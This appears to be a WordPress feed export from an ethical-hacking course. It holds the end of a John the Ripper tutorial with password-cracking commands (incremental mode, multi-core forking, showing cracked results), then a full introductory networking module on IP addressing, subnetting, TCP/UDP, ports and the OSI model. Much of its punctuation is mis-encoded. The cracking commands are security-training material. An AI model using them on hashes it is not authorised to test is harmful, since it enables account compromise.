<pre class="wp-block-preformatted">john --incremental=All &lt;hashfile&gt;</pre>


<h1 class="wp-block-heading" id="37f6">Advanced Tips and Tricks</h1>


<p id="c1a0"><strong>Optimizing Performance</strong>: Use the&nbsp;<code>--fork</code>&nbsp;option to utilize multiple CPU cores for faster cracking:</p>


<pre class="wp-block-preformatted">john --wordlist=password.lst --fork=4 &lt;hashfile&gt;</pre>


<p id="61c2"><strong>Distributed Cracking</strong>: Set up distributed password cracking with tools like “MPI” to divide the task among multiple machines.</p>


<p id="cc13"><strong>Analyzing Results</strong>: Use the&nbsp;<code>john --show &lt;hashfile&gt;</code>&nbsp;command to display cracked passwords and analyze the results.</p>


<h1 class="wp-block-heading" id="6ca5">Conclusion</h1>


<p id="4faa">John the Ripper is a powerful tool for password cracking. By mastering its features and techniques, you can effectively identify weak passwords and enhance security measures. Try out the John the Ripper commands and techniques discussed in this post to deepen your penetration testing skills.</p>


<p id="c86e">Stay tuned for our next post, where we’ll explore exploiting web applications with SQL injection techniques. Happy cracking!</p>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Networking 101</title>
		<link>../../../2022/06/03/the-metasploit-framework/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Fri, 03 Jun 2022 20:29:36 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<category><![CDATA[SQL, Botnets and XSS Attacks Tools and Resources]]></category>
		<guid isPermaLink="false">http://courses.digitalskeleton.com.ng/?p=8195</guid>

					<description><![CDATA[??? Networking 101 is a simple introduction to the most important network concepts for ethical hacking. Objectives This module follows the order: 1. Introduction So, what the heck is a....]]></description>
										<content:encoded><![CDATA[
<h1 class="wp-block-heading" id="networking-101"></h1>


<blockquote class="wp-block-quote is-layout-flow wp-block-quote-is-layout-flow">
<p>??? Networking 101 is a simple introduction to the most important network concepts for ethical hacking. </p>
</blockquote>


<h3 class="wp-block-heading has-medium-font-size" id="objectives">Objectives<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Understand network basic concepts</li>
</ul>


<h3 class="wp-block-heading" id="this-module-follows-the-order"><strong>This module follows the order:</strong><a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#this-module-follows-the-order"></a></h3>


<ol class="wp-block-list">
<li>Introduction</li>


<li>IP and MAC Addresses</li>


<li>Subnetting</li>


<li>TCP, UDP and 3-Way-Handshake</li>


<li>Ports &amp; Protocols</li>


<li>OSI Model</li>
</ol>


<h1 class="wp-block-heading" id="1-introduction">1. Introduction</h1>


<h2 class="wp-block-heading" id="so-what-the-heck-is-a-network">So, what the heck is a Network?<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#so-what-the-heck-is-a-network"></a></h2>


<p>A network consists of two or more computers that are linked in order to share resources. Computer networks are the basis of communication in IT. They are used in a huge variety of ways and can include many different types of network. A computer network is a set of computers that are connected together so that they can share information. The earliest examples of computer networks are from the 1960s, but they have come a long way in the half-century since then.</p>


<figure class="wp-block-image"></figure>


<p><sub><sup>LAN Network Topology &#8211; SOHO / Small Home Network</sup></sub></p>


<p><strong>Two very common types of networks include: LAN (Local Area Network) and WAN (Wide Area Network)</strong></p>


<h2 class="wp-block-heading" id="topologies">Topologies<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#topologies"></a></h2>


<p>There are many different types of network, which can be used for different purposes and by different types of people and organization. Here are some of the network types that you might come across:</p>


<h3 class="wp-block-heading" id="lan---local-area-network">LAN &#8211; Local Area Network<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#lan---local-area-network"></a></h3>


<ul class="wp-block-list">
<li>A LAN is a network that has a logical and physical borders that a computer can broadcast</li>
</ul>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading" id="wan---wide-area-network">WAN &#8211; Wide Area Network<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#wan---wide-area-network"></a></h3>


<ul class="wp-block-list">
<li>WAN is a multiple LANs or additional WANs with routing functionality for interconnectivity.</li>
</ul>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading" id="man---metropolitan-area-network">MAN &#8211; Metropolitan Area Network<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#man---metropolitan-area-network"></a></h3>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading" id="internet">Internet<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#internet"></a></h3>


<p>Connecting WANs through WANs until complete the entire world = Internet.</p>


<ul class="wp-block-list">
<li>The protocol which runs the internet is TCP/IP</li>


<li>As long you???re using legitimate IPv4 address or IPv6</li>
</ul>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading" id="intranet">Intranet<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#intranet"></a></h3>


<p>If you???re using the TCP/IP stack and making your own LAN or WAN = Intranet.</p>


<ul class="wp-block-list">
<li>Intranet is a private network which still runs TCP/IP</li>
</ul>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="common-terms-in-networking">Common Terms in Networking<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#common-terms-in-networking"></a></h2>


<ul class="wp-block-list">
<li><strong>IP (internet protocol) address</strong>: the network address of the system across the network, which is also known as the Logical Address).</li>


<li><strong>MAC address</strong>: the MAC address or physical address uniquely identifies each host. It is associated with the Network Interface Card (NIC).</li>


<li><strong>Open system</strong>: an open system is connected to the network and prepared for communication.</li>


<li><strong>Closed system</strong>: a closed system is not connected to the network and so can???t be communicated with.</li>


<li><strong>Port</strong>: a port is a channel through which data is sent and received.</li>


<li><strong>Nodes</strong>: nodes is a term used to refer to any computing devices such as computers that send and receive network packets across the network.</li>


<li><strong>Network packets</strong>: the data that is sent to and from the nodes in a network.</li>


<li><strong>Routers</strong>: routers are pieces of hardware that manage router packets. They determine which node the information came from and where to send it to. A router has a routing protocol which defines how it communicates with other routers.</li>


<li><strong>???Network address translation (NAT)</strong>: a technique that routers use to provide internet service to more devices using fewer public IPs. A router has a public IP address but devices connected to it are assigned private IPs that others outside of the network can???t see.</li>


<li><strong>Dynamic host configuration protocol (DHCP)</strong>: assigns dynamic IP addresses to hosts and is maintained by the internet service provider.</li>


<li><strong>Internet service providers (ISP)</strong>: companies that provide everyone with their internet connection, both to individuals and to businesses and other organizations.</li>
</ul>


<h1 class="wp-block-heading" id="2-ip--mac-address">2. IP &amp; MAC Address</h1>


<h2 class="wp-block-heading" id="what-is-an-ip-address-internet-protocol">What is an IP Address (Internet Protocol)?<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#what-is-an-ip-address-internet-protocol"></a></h2>


<figure class="wp-block-image"></figure>


<p>An IP address is a unique address that identifies a device on the internet or a local network. IP stands for ???Internet Protocol,??? which is the set of rules governing the format of data sent via the internet or local network.</p>


<h2 class="wp-block-heading" id="check-your-local-ip-address">Check your local IP address<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#check-your-local-ip-address"></a></h2>


<ol class="wp-block-list">
<li>If you are using Linux or MacOS you can open your terminal and type&nbsp;<code>ifconfig</code>&nbsp;command</li>


<li>For Windows machine you can open up the cmd prompt or powershell, then type&nbsp;<code>ipconfig /all</code></li>
</ol>


<figure class="wp-block-image"></figure>


<ul class="wp-block-list">
<li>inet IPv4:&nbsp;<code>192.168.64.3</code>
<ul class="wp-block-list">
<li><code>inet</code>&nbsp;???&gt; The inet (Internet protocol family) show the local IP address. This is IP version 4 (IPv4) Using 32-bit decimal number.</li>
</ul>
</li>


<li>inet6 IPv6:&nbsp;<code>fe80::c83b:ccff:fe0e:1069</code>
<ul class="wp-block-list">
<li><code>inet6</code>&nbsp;???&gt; Is a new version of IP (IPv6), using 128 bits hexadecimal value.</li>
</ul>
</li>


<li><code>ether</code>&nbsp;???&gt; MAC address &#8211; unique identifier assigned to a network interface controller (NIC)</li>
</ul>


<h2 class="wp-block-heading" id="more-about-the-ipv4-decimal-value">More about the IPv4 decimal value:<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#more-about-the-ipv4-decimal-value"></a></h2>


<pre class="wp-block-code"><code>IPv4 = 32 bits range (4 octets of 8 bits, from 0-255 each(4))

11000000.10101000.01000000.00000011   &#91;IPv4 binary]
   192  .   168  .   64   .  3        &#91;IPv4 decimal]
</code></pre>


<h3 class="wp-block-heading" id="the-arithmetic-behind-ipv4">The arithmetic behind IPv4:<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#the-arithmetic-behind-ipv4"></a></h3>


<ul class="wp-block-list">
<li>One octet have 8 bits:</li>
</ul>


<figure class="wp-block-table"><table class="has-fixed-layout"><thead><tr><th>0 or 1</th><th>0 or 1</th><th>0 or 1</th><th>0 or 1</th><th>0 or 1</th><th>0 or 1</th><th>0 or 1</th><th>0 or 1</th></tr></thead><tbody><tr><td>8th bit</td><td>7th bit</td><td>6th bit</td><td>5th bit</td><td>4th bit</td><td>3rd bit</td><td>2nd bit</td><td>1st bit</td></tr><tr><td>128 (2^7)</td><td>64 (2^6)</td><td>32 (2^5)</td><td>16 (2^4)</td><td>8 (2^3)</td><td>4 (2^2)</td><td>2 (2^1)</td><td>1 (2^0)</td></tr></tbody></table></figure>


<p>Here is how binary octets convert to decimal: The right most bit, or least significant bit, of an octet holds a value of 2^0. The bit just to the left of that holds a value of 2^1. This continues until the left-most bit, or most significant bit, which holds a value of 2^7. So if all binary bits are a one, the decimal equivalent would be 255 as shown here:</p>


<pre class="wp-block-code"><code>  1   1   1   1   1   1   1   1
  |   |   |   |   |   |   |   |
(128 +64 +32 +16 +8  +4  +2  +1) --&gt; 255 

Example of octet conversion:
IP Address: 192.168.64.3

To calculate the first octet (192.), from binary format to decimal:

128  64  32  16  8   4   2   1         
 |   |   |   |   |   |   |   |
 1   1   0   0   0   0   0   0          
 |   |   |   |   |   |   |   |
128+ 64+ 0+  0+  0+  0+  0+  0 = 192   ---&gt; final value (firt octet IPv4 in decimal)

</code></pre>


<ul class="wp-block-list">
<li>Take the IP:&nbsp;<code>192.168.64.3</code></li>


<li>The first octet&nbsp;<code>192</code>&nbsp;in 8-bit binary is&nbsp;<code>11000000</code>.</li>


<li>Only the&nbsp;<code>8th</code>&nbsp;and&nbsp;<code>7th</code>&nbsp;bit is on and the rest of them (<code>6th to 1st bit</code>) is off, meaning the decimal value is the final sum of these values:&nbsp;<code>128 + 64 = 192</code></li>
</ul>


<p>??????&nbsp;<strong>Why? Computers see everything in terms of binaryll; on and off.</strong></p>


<h2 class="wp-block-heading" id="ipv4-and-ipv6">IPv4 and IPv6<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#ipv4-and-ipv6"></a></h2>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="private-and-public-ip-addresses">Private and Public IP Addresses<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#private-and-public-ip-addresses"></a></h2>


<p>All IPv4 addresses can be divided into two major groups:&nbsp;<strong>global (or public, external)</strong>&nbsp;&#8211; this group can also be called ???WAN addresses??? ??? those that are used on the Internet, and&nbsp;<strong>private (or local, internal) addresses</strong>&nbsp;??? those that are used in the local network (LAN).</p>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="more-about-private-ip-addresses">More about&nbsp;<strong>Private IP</strong>&nbsp;addresses:<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#more-about-private-ip-addresses"></a></h2>


<p>Private (internal) addresses are not routed on the Internet and no traffic can be sent to them from the Internet, they only supposed to work within the local network. Private addresses include IP addresses from the following subnets:</p>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="nat---network-address-translation">NAT &#8211; Network Address Translation<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#nat---network-address-translation"></a></h2>


<p>NAT stands for network address translation. It???s a way to map multiple local private addresses to a public one before transferring the information. Organizations that want multiple devices to employ a single IP address use NAT, as do most home routers.</p>


<figure class="wp-block-image"></figure>


<ol class="wp-block-list">
<li><strong>Static NAT</strong>When the local address is converted to a public one, this NAT chooses the same one. This means there will be a consistent public IP address associated with that router or NAT device.</li>


<li><strong>Dynamic NAT</strong>Instead of choosing the same IP address every time, this NAT goes through a pool of public IP addresses. This results in the router or NAT device getting a different address each time the router translates the local address to a public address.</li>
</ol>


<h3 class="wp-block-heading" id="???-ip-addresses-operates-on-layer-3-of-osi-model">?????? IP Addresses operates on&nbsp;<strong>Layer 3 of OSI Model</strong><a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#%EF%B8%8F-ip-addresses-operates-on-layer-3-of-osi-model"></a></h3>


<p><em>Note: This module will cover OSI model later.</em></p>


<figure class="wp-block-image"></figure>


<h1 class="wp-block-heading" id="3-subnetting">3. Subnetting</h1>


<h3 class="wp-block-heading" id="why-subnetting">Why subnetting?<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#why-subnetting"></a></h3>


<p>The way IP addresses are constructed makes it relatively simple for Internet routers to find the right network to route data into. However, in a Class A network (for instance), there could be millions of connected devices, and it could take some time for the data to find the right device. This is why subnetting comes in handy: subnetting narrows down the IP address to usage within a range of devices.</p>


<p>Because an IP address is limited to indicating the network and the device address, IP addresses cannot be used to indicate which subnet an IP packet should go to. Routers within a network use something called a subnet mask to sort data into subnetworks.</p>


<blockquote class="wp-block-quote is-layout-flow wp-block-quote-is-layout-flow">
<p>?????? Subnetting is really important for penetration testers and aspiring hackers, eventually you will face several cases involving small or large networks in your future engagements. Understanding the IP address type, range, available hosts is crucial for any network analysis.</p>
</blockquote>


<h2 class="wp-block-heading" id="cheat-sheet-makes-easier-for-subnetting">Cheat sheet makes easier for subnetting<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#cheat-sheet-makes-easier-for-subnetting"></a></h2>


<figure class="wp-block-image"></figure>


<ul class="wp-block-list">
<li>CyberMentor Subnetting Sheet: http://twitter.com/thecybermentor/status/1211335431406727169</li>


<li>Subnetting Cheat sheet alternative: http://nsrc.org/workshops/2009/summer/presentations/day3/subnetting.pdf</li>
</ul>


<h2 class="wp-block-heading" id="exercises">Exercises:<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#exercises"></a></h2>


<p>Subnetting comes in handy to awnser basic questions like:</p>


<ul class="wp-block-list">
<li>Identify the network and broadcast address</li>


<li>How many hosts available in the network/hosts range?</li>


<li>What masks allow the particular host?</li>
</ul>


<figure class="wp-block-table"><table class="has-fixed-layout"><thead><tr><th>IP range</th><th>Subnet</th><th>Hosts</th><th>Network</th><th>Broadcast</th></tr></thead><tbody><tr><td>192.168.1.16/28</td><td>255.255.255.240</td><td>14</td><td>192.168.1.16</td><td>192.168.1.31</td></tr><tr><td>192.168.0.0/22</td><td>?</td><td>?</td><td>?</td><td>?</td></tr></tbody></table></figure>


<ul class="wp-block-list">
<li>Take the&nbsp;<code>192.168.0.0/22</code>&nbsp;IP range listed above</li>


<li>You can easily figure out the subnet mask by look the cheat sheet, you can see the&nbsp;<code>252</code>&nbsp;column. Just replace the value of&nbsp;<code>x</code>. You will get&nbsp;<code>255.255.252.0</code>
<ul class="wp-block-list">
<li>Subnet masks can be 0, 128, 192, 224, 240, 248, 252, 254 and 255.</li>


<li>To understand the basics of math behind the bits, check the next figure below:</li>
</ul>
</li>
</ul>


<figure class="wp-block-image"></figure>


<ul class="wp-block-list">
<li>The number of hosts is&nbsp;<code>2^(n) - 2</code>.
<ul class="wp-block-list">
<li><code>n = off bits</code></li>


<li>In this case, is 2^10 = 1024 -&gt; 1024 &#8211; 2 =&nbsp;<code>1022</code></li>
</ul>
</li>


<li>The network portion is the first and lowest possible value.</li>


<li>The broadcast is the last and highest possible value.</li>
</ul>


<figure class="wp-block-table"><table class="has-fixed-layout"><thead><tr><th>IP range</th><th>Subnet</th><th>Hosts</th><th>Network</th><th>Broadcast</th></tr></thead><tbody><tr><td>192.168.0.0/22</td><td>255.255.252.0</td><td>1022</td><td>192.168.0.0</td><td>192.168.3.255</td></tr></tbody></table></figure>


<h2 class="wp-block-heading" id="other-relevant-information-about--ips">Other relevant information about IPs<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#other-relevant-information-about--ips"></a></h2>


<ul class="wp-block-list">
<li><strong>IPv4 Main Address Types</strong>
<ul class="wp-block-list">
<li><strong>Unicast</strong>&nbsp;&#8211; acted on by a single recipient</li>


<li><strong>Multicast</strong>&nbsp;&#8211; acted on by members of a specific group</li>


<li><strong>Broadcast</strong>&nbsp;&#8211; acted on by everyone on the network
<ul class="wp-block-list">
<li><strong>Limited</strong>&nbsp;&#8211; delivered to every system in the domain (255.255.255.255)</li>


<li><strong>Directed</strong>&nbsp;&#8211; delivered to all devices on a subnet and use that broadcast address</li>
</ul>
</li>
</ul>
</li>


<li><strong>Subnet mask</strong>&nbsp;&#8211; determines how many address available on a specific subnet
<ul class="wp-block-list">
<li>Represented by three methods
<ul class="wp-block-list">
<li><strong>Decimal</strong>&nbsp;&#8211; 255.240.0.0</li>


<li><strong>Binary</strong>&nbsp;&#8211; 11111111.11110000.00000000.00000000</li>


<li><strong>CIDR</strong>&nbsp;&#8211; x.x.x.x/12 (where x.x.x.x is an ip address on that range)</li>
</ul>
</li>


<li>If all the bits in the host field are 1s, the address is the broadcast</li>


<li>If they are all 0s, it???s the network address</li>


<li>Any other combination indicates an address in the range</li>
</ul>
</li>
</ul>


<h1 class="wp-block-heading" id="mac-addresses">MAC Addresses</h1>


<ul class="wp-block-list">
<li>MAC (Media Access Control) address is provided by NIC Card???d manufacturer and gives the physical address of a computer.</li>
</ul>


<figure class="wp-block-image"></figure>


<p>The first three bytes of a MAC address were originally known as&nbsp;<strong>OUI???s, or Organizational Unique Identifiers. Each manufacturer of networking equipment was assigned an OUI, and was free to assign their own numbers in that block.</strong></p>


<pre class="wp-block-code"><code>   OUI     NIC
    |       |
________ ________
00:0c:29:99:98:ca
</code></pre>


<h2 class="wp-block-heading" id="checking-vendor-behind-mac-addresse">Checking vendor behind MAC addresse<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#checking-vendor-behind-mac-addresse"></a></h2>


<ol class="wp-block-list">
<li>Check your MAC address use the command&nbsp;<code>ifconfig</code>&nbsp;(Linux) or&nbsp;<code>/ipconfig</code>&nbsp;(Windows)&nbsp;</li>


<li>Copy and save the&nbsp;<strong>first three bytes</strong>&nbsp;of your address.&nbsp;<em>(The first three bytes from image above is&nbsp;<code>00:0c:29</code>)</em></li>


<li>Validate the information by performing a&nbsp;<strong>MAC Address Lookup</strong>&nbsp;on the internet. For this example I???m using: http://aruljohn.com/&nbsp;</li>


<li>As you can see the OUI lookup identify a virtual network interface provided by VMware</li>
</ol>


<p><em>So, to summarize, the&nbsp;<strong>first three bytes</strong>&nbsp;are assigned to a manufacturer of networking equipment and the manufacturer assigns the last three bytes of an address.</em></p>


<h3 class="wp-block-heading" id="???-mac-addresses-operates-on-layer-2-of-osi-model">?????? MAC Addresses operates on Layer 2 of OSI Model<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#%EF%B8%8F-mac-addresses-operates-on-layer-2-of-osi-model"></a></h3>


<figure class="wp-block-image"></figure>


<h1 class="wp-block-heading" id="4-tcpip-udp-and-3-way-handshake">4. TCP/IP, UDP and 3-Way-Handshake</h1>


<h2 class="wp-block-heading" id="transmission-control-protocolinternet-protocol-tcpip">Transmission Control Protocol/Internet Protocol (TCP/IP)<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#transmission-control-protocolinternet-protocol-tcpip"></a></h2>


<ul class="wp-block-list">
<li>What is TCP used for?</li>
</ul>


<p>TCP enables data to be transferred between applications and devices on a network. It is designed to break down a message, such as an email, into packets of data to ensure the message reaches its destination successfully and as quickly as possible.</p>


<ul class="wp-block-list">
<li>What does TCP mean?</li>
</ul>


<p>TCP means Transmission Control Protocol, which is a communications standard for delivering data and messages through networks. TCP is a basic standard that defines the rules of the internet and is a common protocol used to deliver data in digital network communications.</p>


<ul class="wp-block-list">
<li>The TCP/IP model consists of several types of protocols, including:
<ul class="wp-block-list">
<li>TCP and IP</li>


<li>Address Resolution Protocol (ARP)</li>


<li>Internet Control Message Protocol (ICMP)</li>


<li>Reverse Address Resolution Protocol (RARP)</li>


<li>User Datagram Protocol (UDP)</li>
</ul>
</li>
</ul>


<figure class="wp-block-image"></figure>


<p><sub><sup>TCP/IP Model</sup></sub></p>


<p>TCP is the most commonly used of these protocols and accounts for the most traffic used on a TCP/IP network.&nbsp;<strong>UDP is an alternative to TCP that does not provide error correction, is less reliable, and has less overhead, which makes it ideal for streaming.</strong></p>


<h2 class="wp-block-heading" id="the-user-datagram-protocol-udp">The User Datagram Protocol (UDP)<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#the-user-datagram-protocol-udp"></a></h2>


<p>Is a lightweight data transport protocol that works on top of IP. UDP provides a mechanism to detect corrupt data in packets, but it does not attempt to solve other problems that arise with packets, such as lost or out of order packets. That???s why UDP is sometimes known as the Unreliable Data Protocol. UDP is simple but fast, at least in comparison to other protocols that work over IP. It???s often used for time-sensitive applications (such as real-time video streaming) where speed is more important than accuracy.</p>


<ul class="wp-block-list">
<li>On Linux and Unix systems you can issue the&nbsp;<code>lsof</code>&nbsp;command to see which processes is using UDP ports&nbsp;</li>
</ul>


<h2 class="wp-block-heading" id="the-tcp-format">The TCP format<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#the-tcp-format"></a></h2>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="the-udp-format">The UDP format<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#the-udp-format"></a></h2>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="tcp-handshake">TCP Handshake<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#tcp-handshake"></a></h2>


<p>TCP uses a three-way handshake to establish a reliable connection. The connection is full duplex, and both sides synchronize (SYN) and acknowledge (ACK) each other. The exchange of these four flags is performed in three steps:</p>


<ol class="wp-block-list">
<li>SYN</li>


<li>SYN-ACK</li>


<li>ACK</li>
</ol>


<figure class="wp-block-image"></figure>


<p>The three message mechanism is designed so that two computers that want to pass information back and forth to each other can negotiate the parameters of the connection before transmitting data such as HTTP browser requests.</p>


<h2 class="wp-block-heading" id="more-tcp-flags">More TCP Flags<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#more-tcp-flags"></a></h2>


<figure class="wp-block-table"><table class="has-fixed-layout"><thead><tr><th>Flag</th><th>Name</th><th>Function</th></tr></thead><tbody><tr><td>SYN</td><td>Synchronize</td><td>Set during initial communication. Negotiating of parameters and sequence numbers</td></tr><tr><td>ACK</td><td>Acknowledgment</td><td>Set as an acknowledgement to the SYN flag. Always set after initial SYN</td></tr><tr><td>RST</td><td>Reset</td><td>Forces the termination of a connection (in both directions)</td></tr><tr><td>FIN</td><td>Finish</td><td>Ordered close to communications</td></tr><tr><td>PSH</td><td>Push</td><td>Forces the delivery of data without concern for buffering</td></tr><tr><td>URG</td><td>Urgent</td><td>Data inside is being sent out of band. Example is cancelling a message</td></tr></tbody></table></figure>


<h2 class="wp-block-heading" id="capturing-3-way-handshakes-example">Capturing 3 Way handshakes (Example)<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#capturing-3-way-handshakes-example"></a></h2>


<ul class="wp-block-list">
<li>The figure below shows the 3-way-handshake packets captured by&nbsp;<a href="http://www.wireshark.org/">Wireshark</a></li>
</ul>


<figure class="wp-block-image"></figure>


<h1 class="wp-block-heading" id="5-ports--protocols">5. Ports &amp; Protocols</h1>


<h2 class="wp-block-heading" id="what-is-a-port">What is a Port?<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#what-is-a-port"></a></h2>


<p>In computer networking, a port is a communication endpoint. At the software level, within an operating system, a port is a logical construct that identifies a specific process or a type of network service.</p>


<h2 class="wp-block-heading" id="the-most-common-ports">The most common ports<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#the-most-common-ports"></a></h2>


<p>As a penetration tester or ethical hacker you should be familiar with the common ports and protocols used by popular services.</p>


<h3 class="wp-block-heading" id="port-numbers">Port Numbers<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#port-numbers"></a></h3>


<ul class="wp-block-list">
<li><strong>Internet Assigned Numbers Authority</strong>&nbsp;(IANA) &#8211; maintains Service Name and Transport Protocol Port Number Registry which lists all port number reservations</li>


<li>Ranges
<ul class="wp-block-list">
<li><strong>Well-known ports</strong>&nbsp;&#8211; 0 &#8211; 1023</li>


<li><strong>Registered ports</strong>&nbsp;&#8211; 1024 &#8211; 49,151</li>


<li><strong>Dynamic ports</strong>&nbsp;&#8211; 49,152 &#8211; 65,535Port NumberProtocolTransport Protocol20/21FTPTCP22SSHTCP23TelnetTCP25SMTPTCP53DNSTCP/UDP67DHCPUDP69TFTPUDP80HTTPTCP110POP3TCP135RPCTCP137-139NetBIOSTCP/UDP143IMAPTCP161/162SNMPUDP389LDAPTCP/UDP443HTTPSTCP445SMBTCP514SYSLOGUDP</li>


<li>A service is said to be&nbsp;<strong>listening</strong>&nbsp;for a port when it has that specific port open</li>


<li>Once a service has made a connection, the port is in an&nbsp;<strong>established</strong>&nbsp;state</li>


<li><strong><code>netstat</code></strong>&nbsp;command:
<ul class="wp-block-list">
<li>Shows open ports on computer</li>


<li><strong>netstat -an</strong>&nbsp;displays connections in numerical form</li>


<li><strong>netstat -b</strong>&nbsp;displays executables tied to the open port (admin only)</li>
</ul>
</li>
</ul>
</li>
</ul>


<h1 class="wp-block-heading" id="6-osi-model">6. OSI Model</h1>


<p>OSI Model is a hypothetical networking framework that uses specific protocols and mechanisms in every layer of it. This model is used to divide the network architecture into seven different layers conceptually. These layers are:</p>


<figure class="wp-block-image"></figure>


<p>There also involves some security postures and mechanisms that a security professional must know to detect and put the security method effectively in every layer.</p>


<h2 class="wp-block-heading" id="more-about-the-layers">More about the Layers:<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#more-about-the-layers"></a></h2>


<h2 class="wp-block-heading" id="layer-7---application">Layer 7 &#8211; Application<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#layer-7---application"></a></h2>


<figure class="wp-block-image"></figure>


<ul class="wp-block-list">
<li>This is the only layer that directly interacts with data from the user. Software applications like web browsers and email clients rely on the application layer to initiate communications. But it should be made clear that client software applications are not part of the application layer; rather the application layer is responsible for the protocols and data manipulation that the software relies on to present meaningful data to the user. Application layer protocols include HTTP as well as SMTP (Simple Mail Transfer Protocol is one of the protocols that enables email communications).</li>
</ul>


<h2 class="wp-block-heading" id="layer-6---presentation">Layer 6 &#8211; Presentation<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#layer-6---presentation"></a></h2>


<figure class="wp-block-image"></figure>


<ul class="wp-block-list">
<li>This layer is primarily responsible for preparing data so that it can be used by the application layer; in other words, layer 6 makes the data presentable for applications to consume. The presentation layer is responsible for translation, encryption, and compression of data.</li>
</ul>


<h2 class="wp-block-heading" id="layer-5---session-layer">Layer 5 &#8211; Session Layer<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#layer-5---session-layer"></a></h2>


<figure class="wp-block-image"></figure>


<ul class="wp-block-list">
<li>This is the layer responsible for opening and closing communication between the two devices. The time between when the communication is opened and closed is known as the session. The session layer ensures that the session stays open long enough to transfer all the data being exchanged, and then promptly closes the session in order to avoid wasting resources.</li>
</ul>


